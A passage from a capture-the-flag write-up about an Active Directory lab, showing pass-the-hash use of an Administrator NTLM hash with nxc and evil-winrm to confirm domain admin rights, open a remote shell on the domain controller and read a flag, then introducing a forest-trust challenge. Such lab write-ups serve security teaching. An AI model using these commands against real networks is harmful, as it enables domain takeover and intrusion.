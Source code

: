 We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\Administrator:4b1b716bb4ad29c4efaf682577361070 (Pwn3d!)
```

Lastly, we can use `evil-winrm` to authenticate to `dc01.antennae.rv` as `Administrator` and grab the `flag6.txt` file:

```
~$ evil-winrm -i dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag6.txt
RV{aNd_The_Pil1@r$_st@rt_dROpp!nG_170fee6a4def44375b5c5ecbc0b87efe}
```

# Flag 7: Privilege (De)escalation?

![](./assets/img/rv-sept/7.png)

This challenge, sadly, only had one solve. This flag is the first challenge in the `backward.rv` forest, which has a [bidirectional trust](https://www.thehacker.recipes/ad/movement/trusts/) with the compromised `antennae.rv` forest. 

A [bidirectional trust](https://www.thehacker.recipes/ad/movement/trusts/) established between two Active Directory forests allows users in either forest to access resources in the other forest, provided they have the necessary permissions. This often means that a user from one forest can be granted access to resources in the other forest, and vice versa. In this case, a user in `antennae.rv` can potentially access resources in `backward.rv`, and vice versa.
